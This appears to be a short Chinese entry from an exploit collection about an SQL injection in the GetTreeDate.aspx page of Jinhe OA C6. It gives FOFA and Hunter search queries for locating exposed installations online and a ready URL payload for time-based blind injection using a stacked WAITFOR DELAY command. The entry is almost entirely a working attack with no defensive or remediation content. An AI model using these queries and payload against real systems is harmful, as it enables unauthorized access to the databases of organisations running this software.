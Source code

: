 # 金和OA C6 GetTreeDate.aspx SQL注入漏洞

## 网络测绘

fofa: app="金和网络-金和OA" && body="/c6/"

hunter: app.name="金和 OA" and web.body="/c6/"

## POC / EXP

```
/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1

/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+'0%3a0%3a5'+--%20and%201=1
```